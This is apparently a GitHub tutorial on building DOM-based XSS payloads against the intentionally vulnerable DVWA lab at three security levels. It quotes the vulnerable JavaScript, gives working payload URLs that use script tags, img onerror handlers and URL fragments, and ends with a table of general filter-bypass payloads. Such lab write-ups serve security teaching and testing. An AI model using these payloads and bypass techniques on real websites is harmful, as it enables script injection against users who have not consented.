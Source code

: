 # 🧠 Understanding DOM-Based XSS Payload Construction

This guide explains how to analyze, deconstruct, and build DOM-based XSS (Cross-Site Scripting) payloads step-by-step using examples from DVWA.

---

## 📜 Vulnerable Code Context

From the DVWA DOM XSS page, we analyze this JavaScript:

```html
<script>
    if (document.location.href.indexOf("default=") >= 0) {
        var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
        document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
    }
</script>
```

🔍 This script:
- Reads the `default=` parameter from the URL.
- Writes it directly into the page using `document.write()`.

---

## 🧪 Low Security – Payload

```
http://localhost/vulnerabilities/xss_d/?default=');<script>alert('hacked!');</script>//
```

### 🔎 How it works:
- `');` closes the `value` attribute.
- `<script>alert(...)</script>` injects JS.
- `//` comments out the rest.

Resulting HTML:
```html
<option value=''>
<script>alert('hacked!');</script>
</option>
```

✅ JavaScript is executed.

---

## 🛡️ Medium Security – Filter Bypass

```php
if (stripos ($default, "<script") !== false) {
    redirect to default=English
}
```

This blocks `<script>` tags.

### ✅ Bypassed with image-based event:
```
http://localhost/vulnerabilities/xss_d/?default=English</option></select><img src='x' onerror='alert(1)'>
```

This breaks out of the HTML safely and injects an `<img>` with an `onerror` JavaScript handler.

---

## 🔒 High Security – Whitelist Bypass

📌 Overview
In the High Security level, DVWA attempts to mitigate DOM-based XSS attacks by using a strict server-side whitelist in PHP. Only specific values for the default parameter (English, French, German, Spanish) are allowed. All other values trigger a redirect to the default page.

However, the actual vulnerability lies entirely on the client side, inside the <script> block within the HTML page. The JavaScript code reads the default parameter from the URL and injects it into the DOM using document.write() without sanitization. This logic is flawed and leads to DOM-based XSS — even though the server doesn’t reflect or store the malicious payload.

🔍 Vulnerability Breakdown

```if (document.location.href.indexOf("default=") >= 0) {
    var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
    document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
    document.write("<option value='' disabled='disabled'>----</option>");
}

```
❌ Problem Description
```🔒 Vulnerability	❌ Problem Description
DOM-Based XSS	User-controlled input (default) is inserted directly into the DOM via document.write() without escaping or sanitization
Bypass of Server Checks	Since the XSS executes purely in the client (browser), the server-side whitelist check has no effect
URL Fragment Injection	Payloads in the URL fragment (#) are not sent to the server — only seen by the browser
```

🔁 How It Works:

The PHP server only sees ?default=English, which passes the whitelist.
The browser also sees the fragment #<script>...</script> — which is ignored by the server.
The DOM-based script extracts default=English#<script>... from document.location.href.
document.write() injects the payload into the page directly — leading to XSS.

PHP restricts input to one of:
- English
- French
- Spanish
- German

But JS still processes the full URL, including fragments.

### 🧪 Payload:

```
http://localhost/vulnerabilities/xss_d/?default=English#<script>alert('hacked')</script>
```

Even though PHP whitelists `default=English`, JavaScript reads everything after the `#`.

Injected:
```js
var lang = 'English#<script>alert("hacked")</script>'
```

Browser renders:
```html
<option value='English#<script>alert("hacked")</script>'>...
```

✅ JS executes the script from the URL fragment.

---

## 🧰 How to Build DOM XSS Payloads – Step by Step

| Step | What to Do | Why |
|------|------------|-----|
| 1️⃣ | Read the vulnerable JavaScript | Know how input is used |
| 2️⃣ | Identify context (attribute, innerHTML, eval) | Injection needs context awareness |
| 3️⃣ | Break out of that context | Use `'`, `">`, `</tag>` as needed |
| 4️⃣ | Insert payload | `<script>`, `onerror=alert()`, `onload=...` |
| 5️⃣ | Neutralize code after | Use `//`, valid closing HTML |

---

## 🔐 Bypass Tips for Filters

| Bypass Case | Payload Example |
|-------------|-----------------|
| Script tag blocked | `<img src=x onerror=alert(1)>` |
| Event-based XSS | `<svg/onload=alert(1)>` |
| Attribute Injection | `' onfocus=alert(1) autofocus>` |
| Fragment-based bypass | `#<script>alert(1)</script>` |
| Case-insensitive filter | `<ScRipT>alert(1)</sCript>` |
| Double encoding | `%3Cscript%3Ealert(1)%3C/script%3E` |

---

## ✅ Summary

DOM-based XSS is about injecting malicious input where JavaScript dynamically injects HTML based on the URL.

- Always look **where the input lands** in the DOM.
- Modify the **structure of the page safely** to sneak in JS.
- **Bypass filters** using encoding, event handlers, and creative HTML.

